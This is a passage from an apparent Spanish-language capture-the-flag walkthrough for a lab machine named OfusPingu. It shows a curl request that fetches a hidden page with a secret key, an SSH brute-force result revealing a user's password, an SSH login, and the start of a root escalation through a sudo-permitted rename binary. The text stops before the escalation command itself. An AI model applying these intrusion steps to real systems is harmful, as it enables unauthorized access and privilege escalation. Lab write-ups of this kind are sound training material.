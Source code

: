 ```bash
curl -s -X GET http://192.168.100.32:3000/view?key=MI-KEY-SECRETA-12345 -o zona_secreta.html
```

Revisando el codigo tenemos un usuario valido para el sistema: **debian**
```html
<div class="container">
    <h1 class="glow">🎉 ¡Bienvenido a la Zona Secreta! 🎉</h1>
    <p>Has accedido correctamente al área privada del sistema.<br>Ahora debes entrar por SSH con debian usando alguna contraseña.</p>
    <button class="btn" onclick="salir()">Cerrar Sesión</button>
</div>
```

### Intrusion
Realizamos ataque de fuerza bruta por ssh
```bash
[22][ssh] host: 192.168.100.32   login: debian   password: chocolate
```

Realizamos la  conexion por **ssh**
```bash
# Reverse shell o acceso inicial
ssh debian@192.168.100.32
debian@192.168.100.32's password:
```

---

## Escalada de Privilegios

###### Usuario `[ Debian ]`:
Flag de usuario
```bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
```

listando los permisos para este usuario
```bash
sudo -l

User debian may run the following commands on OfusPingu:
    (ALL) NOPASSWD: /usr/bin/rename
```

El binario **`/usr/bin/rename`** en Kali Linux es una herramienta poderosa para renombrar archivos, y con privilegios **sudo NOPASSWD** puede ser explotado para ganar acceso root.
Es un utilitario para **renombrar múltiples archivos** usando expresiones regulares. Parte del paquete `rename` en Debian/Kali.
Para ver si este binario es de **perl**, necesitamos ver su primera linea
```bash
debian@OfusPingu:~$ head -n 1 /usr/bin/rename

#!/usr/bin/perl
```
